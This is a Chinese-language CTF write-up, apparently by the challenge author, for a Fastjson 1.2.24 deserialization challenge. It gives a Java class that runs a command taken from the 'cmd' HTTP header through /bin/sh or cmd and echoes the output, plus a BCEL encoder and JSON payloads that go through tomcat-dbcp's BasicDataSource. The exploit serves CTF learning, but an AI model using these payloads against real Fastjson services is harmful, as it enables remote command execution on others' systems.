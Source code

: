 ```
title: 记一次CTF出题之FastjsonBCEL_WP篇
date: 2024-03-18 18:53:00 +0800
img_path: /
categories: [CTF, CTF出题记录]
tags: [CTF, CTF出题记录]   
```

# WEB-FastjsonBCEL

## 一、查看题目信息

题目给出一个jar包，反编译后查看`Controller`层内容如下：

![image-20240318182129668](assets/image-20240318182129668.png)

`/parse`路由下存在`FastJson`解析可能存在反序列化漏洞。



## 二、题目分析

查看`pom.xml`文件

![image-20240318182330944](assets/image-20240318182330944.png)

注意到存在`tomcat-dbcp`依赖和`fastjson`依赖，且版本分别为`9.0.8`、 `1.2.24`。所以可以使用`FastJson`借助`tomcat-dbcp`实现BCEL字节码加载的方式。

还是以`BCEL`打回显为目的，恶意类如下：

```java
package org.example;

import java.lang.reflect.Method;
import java.util.Scanner;

public class SpringEcho {
    static {
        try {
            Class v0 = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.context.request.RequestContextHolder");
            Method v1 = v0.getMethod("getRequestAttributes");
            Object v2 = v1.invoke(null);
            v0 = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.context.request.ServletRequestAttributes");
            v1 = v0.getMethod("getResponse");
            Method v3 = v0.getMethod("getRequest");
            Object v4 = v1.invoke(v2);
            Object v5 = v3.invoke(v2);
            Method v6 = Thread.currentThread().getContextClassLoader().loadClass("javax.servlet.ServletResponse").getDeclaredMethod("getWriter");
            Method v7 = Thread.currentThread().getContextClassLoader().loadClass("javax.servlet.http.HttpServletRequest").getDeclaredMethod("getHeader",String.class);
            v7.setAccessible(true);
            v6.setAccessible(true);
            Object v8 = v6.invoke(v4);
            String v9 = (String) v7.invoke(v5,"cmd");
            String[] v10 = new String[3];
            if (System.getProperty("os.name").toUpperCase().contains("WIN")){
                v10[0] = "cmd";
                v10[1] = "/c";
            }else {
                v10[0] = "/bin/sh";
                v10[1] = "-c";
            }
            v10[2] = v9;
            v8.getClass().getDeclaredMethod("println",String.class).invoke(v8,(new Scanner(Runtime.getRuntime().exec(v10).getInputStream())).useDelimiter("\\A").next());
            v8.getClass().getDeclaredMethod("flush").invoke(v8);
            v8.getClass().getDeclaredMethod("clone").invoke(v8);
        } catch (Exception var11) {
            var11.getStackTrace();
        }
    }
}

```

生成BCEL编码`payload`：

```java
package org.example;

import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.util.ClassLoader;

public class Bcel {

    public static void main(String[] args) throws Exception {
        JavaClass javaClass = Repository.lookupClass(SpringEcho.class);
        String code = "$$BCEL$$"+Utility.encode(javaClass.getBytes(),true);
        System.out.println(code);
        //new ClassLoader().loadClass(code).newInstance();
    }
}
```

因为漏洞触发点为`JSONObject.parse(jsonString)`所以最终`payload`形式如下：

```json
{
    {
        "@type": "com.alibaba.fastjson.JSONObject",
        "x":{
                "@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
                "driverClassLoader": {
                    "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
                },
                "driverClassName": "$$BCEL$$$l$8b$I$A$A$xxxxxxxxxxxx"
        }
    }: "x"
}
```

如果是`parseObject()`的形式，`payload`也可以如下:

```json
{
        "@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
        "driverClassLoader": {
            "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
        },
        "driverClassName": "$$BCEL$$$l$8b$I$A$A$A$A$A$A$xxxxxxxxxxxx"
}
```



## 三、漏洞利用

生成拼接好`payload`传入：

![image-20240318183625514](assets/image-20240318183625514.png)